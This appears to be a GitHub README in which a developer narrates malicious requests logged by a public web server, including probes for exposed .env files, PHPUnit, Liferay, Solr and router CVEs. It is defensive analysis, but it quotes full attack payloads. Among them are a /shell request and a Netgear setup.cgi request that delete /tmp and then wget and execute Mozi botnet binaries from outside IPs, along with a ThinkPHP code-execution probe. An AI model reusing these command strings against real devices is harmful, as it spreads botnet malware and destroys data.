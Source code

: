 # Inspecting Malicious Requests

I recently stood up a crude web application and my logs were capturing various requests my public IP was attracting.  I had seen some such requests before but finally decided it warranted a blog post, and you can read more here.

Otherwise, I'm posting this in a repository as a point of collaboration if any of my readers want to correct, inform, or expand.

## Log Lines and Narration

> `2021-04-25T10:19:17: GET /mysql/index.php?lang=en 404 0.940 ms - 1103`

PHP is a mainstay in the web development community, and there are many sites describing how it can integrate with mySQL.  'Index' here with the `php` extension implies some code process and not simply fetching a static resource (such as an html file).  Since this is under the `mysql` resource, it appears to be a big sniff to see if a console to the mysql db has been left open.

> `2021-04-25T10:21:27: GET /shell?cd+/tmp;rm+-rf+*;wget+http://172.36.40.208:44947/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws 404 0.964 ms - 1103`

Immediately one can recognize the `shell` resource, that this is a flavor of a [bashdoor](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/) attack or attempting to insert and invoke arbitrary code at the command line level.  It first tries to clear out everything in the 'tmp' direcotry (`cd /tmp; rm -rf *`) before fetching (`wget`) a remotely hosted file ('Mozi.a`, part of the [Mirai botnet](https://isc.sans.edu/forums/diary/Honeypot+Scanning+and+Targeting+Devices+Services/25928/)) and then tries to invoke.  

> `2021-04-25T11:17:53: GET http://169.254.169.254/latest/meta-data/ 404 1.033 ms - 1103`

Not an attack, rather something particular to AWS EC2 [instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html).  I believe it's the AWS SDK (within my NodeJS application) locally looking for the metadata containing the AWS credentials (since my web app was integrated with DynamoDB).  Noteworthy is the IP `169.254.169.254` is special to every EC2 instance.

> `2021-04-25T11:49:04: POST /HNAP1/ 404 0.837 ms - 1103`

Home Network Administration Protocl ([HNAP](https://routersecurity.org/hnap.php)) is a Cisco proprietary protocl for managing network devices, going back to 2007.  There was a [worm back in 2014](https://isc.sans.edu/diary/Linksys+Worm+%22TheMoon%22+Summary%3A+What+we+know+so+far/17633), which used the HNAP1 protocol to identify specific Linksys routers (firmware etc.), and then send a second request to invoke an exploit at the CGI/script level.

> `2021-04-25T14:57:06: GET /.env 404 0.919 ms - 1103`

The `.env` is not specific to one framework or language, but actually closert to industry convention.  I think this request is simply hoping that the server is simply hosting a directory and that an `.env` might be exposed possibly revealing things like API or credential keys/tokens.

> `2021-04-25T17:00:00: POST http://likeapro.best/`

I tried the URl, and it was a 'Not Found', so who knows.  Maybe someone is hoping to get more traffic to a site laiden with ads.

> `2021-04-25T18:04:09: GET /config/getuser?index=0 404 0.940 ms - 1103`

Specific D-Link wi-fi camears had a vulnerability where the remote administrator vould be directly queried without authentication!  Hoorah for the National Vulnerability Database (NIST), the page for [this vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2020-25078#vulnCurrentDescriptionTitle) in particular was fun to read through and click the links deeper into the vulnerability and who/how it was uncovered.

> `2021-04-25T20:12:45: POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php 404 1.083 ms - 1103`

This is a [vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9841) for specific version of [PHPUnit](https://phpunit.de), where arbitrary PHP code could be executed!  Here's a very [detailed story](https://thephp.cc/articles/phpunit-a-security-risk) (by a PHP expert), on how this impacted a retail website.  The first link is to [cve.mitre.org](cve.mitre.org), a vulnerability catalog sponsored by USA's DHS and CISA, and the actual site is maintained by the MITRE Corp. 


> `2021-04-25T20:12:45: POST /api/jsonws/invoke 404 0.656 ms - 1103`

[Liferay](https://www.liferay.com) is a digital portal/platform product, which had a JSON (deserialization) and remove code execution [vulnerability](https://codewhitesec.blogspot.com/2020/03/liferay-portal-json-vulns.html) ([CVE-2020-7961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7961)) in March of 2020 and documented by [Code White](https://codewhitesec.blogspot.com).  Bonus, someone created a [scanner](https://github.com/random-robbie/liferay-pwn) (github) for this vulnerability.


2021-04-25T20:12:45: GET /solr/admin/info/system?wt=json 404 0.989 ms - 1103

Ranked as the [#7 Web Service Exploit of 2020](https://blog.radware.com/security/2020/12/the-top-web-service-exploits-in-2020/), even though Apache [published an issue](https://issues.apache.org/jira/browse/SOLR-4882) back in 2013!  The above request is a scan looking for specific versions of Apache Solr (search platform), where a particular parameter is exposed and can lead to arbitrary file reading.  Apparently this is combined with some other vulnerabilities to eventually get to remote code execution, detailed in [CVE-2013-6397](https://nvd.nist.gov/vuln/detail/CVE-2013-6397).

## No Narration (yet)

```
2021-04-25T20:12:45: GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 404 0.918 ms - 1103
2021-04-25T20:12:45: GET /wp-content/plugins/wp-file-manager/readme.txt 404 0.866 ms - 1103
2021-04-25T20:12:46: POST /Autodiscover/Autodiscover.xml 404 1.512 ms - 1103
2021-04-25T20:12:46: GET /console/ 404 0.771 ms - 1103
2021-04-25T20:12:46: GET /_ignition/execute-solution 404 0.936 ms - 1103
2021-04-25T22:00:03: GET /.env 404 4.342 ms - 1103
2021-04-25T22:00:04: POST / 404 0.994 ms - 1103
2021-04-26T06:08:45: POST /GponForm/diag_Form?images/ 404 0.736 ms - 1103
2021-04-26T10:42:36: GET /laravel/.env 404 0.658 ms - 1103
2021-04-26T10:42:36: GET /app/.env 404 0.619 ms - 1103
2021-04-26T10:42:36: GET /application/configs/application.ini 404 0.712 ms - 1103
2021-04-26T10:42:36: GET /application/application.ini 404 0.656 ms - 1103
2021-04-26T10:42:36: GET /vendor/laravel/.env 404 0.641 ms - 1103
2021-04-26T10:42:36: GET /wp-content/uploads/wc-logs/ 404 0.677 ms - 1103
2021-04-26T11:38:52: POST /Autodiscover/Autodiscover.xml 404 0.836 ms - 1103
2021-04-26T11:38:52: GET /console/ 404 0.711 ms - 1103
2021-04-26T11:38:53: GET /_ignition/execute-solution 404 1.475 ms - 1103
2021-04-26T16:41:52: GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://58.248.142.207:49791/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 404 0.969 ms - 1103
```

